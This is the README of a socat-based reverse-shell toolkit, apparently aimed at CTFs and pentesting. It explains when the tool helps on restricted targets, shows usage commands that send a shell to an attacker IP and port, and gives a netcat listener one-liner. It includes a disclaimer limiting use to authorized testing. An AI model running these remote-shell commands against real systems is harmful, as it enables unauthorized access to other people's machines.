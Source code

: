 # Just Another Reverse Shell but Interactive (JARSI)

![JARS Banner](https://img.shields.io/badge/Reverse%20Shell-Pretty%20and%20Simple-blueviolet?style=for-the-badge&logo=gnu-bash)

A minimal, pretty, and effective reverse shell toolkit using `socat` for both shell and listener. Perfect for CTFs, pentesting, and quick remote access scenarios.

---

## 🚀 Purpose

**JARS** provides a clean and reliable way to establish reverse shells using Bash and socat. It includes:
- `revShell.sh`: Initiates a reverse shell to a remote attacker.
- `revListener.sh`: Sets up a listener to catch incoming reverse shells, and can be used to enhance the shell experience (autocompletion, arrow keys, etc.) on servers with limited command support. 

---

## 🛠️ Requirements

- [socat](http://www.dest-unreach.org/socat/)
- Bash (Linux/macOS/WSL)

Install socat (Debian/Ubuntu):
```bash
sudo apt update && sudo apt install socat
```

---

## 📦 Files

- **revShell.sh**  
  _Usage:_
  ```bash
  ./revShell.sh [Remote Attacker IP] [Remote Attacker PORT]
  ```
  _Example:_
  ```bash
  ./revShell.sh 10.10.14.1 4444
  ```

- **revListener.sh**  
  _Usage:_
  ```bash
  ./revListener.sh [Listener PORT]
  ```
  _Example:_
  ```bash
  ./revListener.sh 4444
  ```

---

## ✨ Features
- Clean output and usage instructions
- Uses `socat` for stable, interactive shells
- Minimal dependencies
- Easy to use and modify

---

## ❓ When to Use JARS
This tool is especially useful when the target system:
- Does **not** have Python installed
- Has Python, but `pty` cannot be imported (so you can't upgrade shells easily)
- Lacks typical tab completion or cannot use `stty` to fix the shell
- Does **not** have a fully functional `nc` (Netcat) command, or only provides a limited client (e.g., BusyBox's older versions)
- Presents other restrictions that prevent you from getting a stable, interactive shell

By using socat, JARS helps you get a more interactive and reliable shell in these restrictive environments.

---

## 💡 Tips
- For Windows, use WSL or a Linux VM to run these scripts.
- Make scripts executable: `chmod +x revShell.sh revListener.sh`
- Always get proper authorization before using reverse shells!
- You can also use a simple Netcat listener as an alternative:
  ```bash
  nc -lnvp [PORT]
  ```
  However, note that Netcat listeners may not provide as smooth an experience (e.g., autocompletion, arrow keys) as the provided socat-based listener.

---

## ⚠️ Disclaimer
This project is for educational and authorized penetration testing purposes only. Do **not** use it on systems you do not own or have explicit permission to test.

---

## 📚 References
- [socat documentation](http://www.dest-unreach.org/socat/doc/socat.html)
- [Reverse Shell Cheat Sheet](https://highon.coffee/blog/reverse-shell-cheat-sheet/)

---

Enjoy your interactive shells! 🐚✨

